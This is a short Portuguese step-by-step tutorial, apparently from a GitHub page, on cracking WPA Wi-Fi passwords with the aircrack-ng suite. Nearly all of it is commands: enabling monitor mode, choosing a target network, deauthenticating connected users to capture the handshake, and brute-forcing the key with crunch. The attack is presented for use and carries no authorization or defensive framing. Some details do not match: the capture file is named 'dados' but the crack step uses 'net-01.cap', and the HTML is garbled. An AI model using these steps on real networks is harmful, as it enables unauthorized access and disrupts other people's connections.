<p>
Instale o aircrack-ng:
</p>

<p>
<precode><code>sudo apt-get update
sudo apt-get install aircrack-ng
</code></pre>
</p>

<p>
Verificar o nome da sua interface Wi-FI:
</p>

<p>
<precode><code>iwconfig
</code></pre>
</p>

<p>
Após verificar o nome da interface, deve-se verificar se o Ubuntu está reconhecendo o driver da interface sem fio:
</p>

<p>
<precode><code>sudo airmon-ng
</code></pre>
</p>

<p>
verificar se tem algum processo que pode acabar atrapalhando o processo de captura de pacotes:
</p>

<p>
<precode><code>sudo airmon-ng check kill
</code></pre>
</p>

<p>
Vamos colocar nossa placa de rede em modo monitor:
</p>

<p>
<precode><code>sudo airmon-ng start [nome_da_sua_interface_wireless]
iwconfig
</code></pre>

<p>
Quando a placa estiver pronta para monitorar, podemos ver quais são as redes disponíveis para nossos possíveis ataques.
</p>

<p>
<precode><code>airodump-ng [nome_da_sua_interface_wireless]
</code></pre>

<p>
Após selecionar a rede alvo, utilizaremos algumas de suas informações. Você pode guardá-las em um bloco de notas. As informações são as seguintes:<br />
<strong>BSSID:</strong> <em>Basic Service Set Identifier</em> se refere ao endereço MAC de um adaptador sem fio ou de um ponto de acesso.Sua função é identificar exclusivamente um ponto de acesso que enviará sinais pra transmissão da rede sem fio.<br />
<strong>CH:</strong> Canal na qual a rede está operando.<br />
<strong>ESSID:</strong> nome que é visível na rede.<br />
</p>

<p>
Agora que temos a rede alvo, iremos monitorá-la usando algumas das informações adquiridas que guardamos em um bloco de notas anteriormente. É importante que pelo menos 300 pacotes de dados tenham passado pela rede para garantir que o <strong>WPA HANDSHAKE</strong> seja capturado.
<p>
<pre><code>sudo airodump-ng -c [canal_da_rede_alvo] --bssid [bssid_da_rede_alvo] -w dados
</code></pre>
</p>

<p>
Hora de capturar o tão esperado WPA HANDSHAKE. Para que seja capturado, é preciso que alguém se conecte à à rede. Há duas opções: você espera a oportunidade que algum usuário se conecte ou você pode desautenticar quem já está conectado e capturar o WPA HANDSHAKE logo que o usuário se reconectar. Usaremos a segunda opção!
<p>
<pre><code>sudo aireplay-ng -0 10 -a [bssid_da_rede_alvo] [nome_da_sua_interface_wireless]
</code></pre>
</p>

<p>
Verificar o <strong>WPA HANDSHAKE</strong> capturado no arquivo criado anteriormente na execução do comando de captura. No caso deste tutorial, o arquivo criado recebeu o nome “dados”. Dê o seguinte comando no seu diretório atual:
</p>
<pre><code>ls
sudo aircrack-ng net-01.cap
</code></pre>
</p>

<p>
Hora de quebrar no Brute Force:
<p>
<pre><code>sudo crunch [min] [max] [padrão] | aircrack-ng [net-01.cap] -w - -e [essid_da_rede_alvo]
</code></pre>
</p>

<p>
Ao final, temos de reativar o nosso network-manager pois ao usar o comando check kill ele o desativa.
</p>

<p>
<precode><code>sudo service network-manager start
</code></pre>
</p>
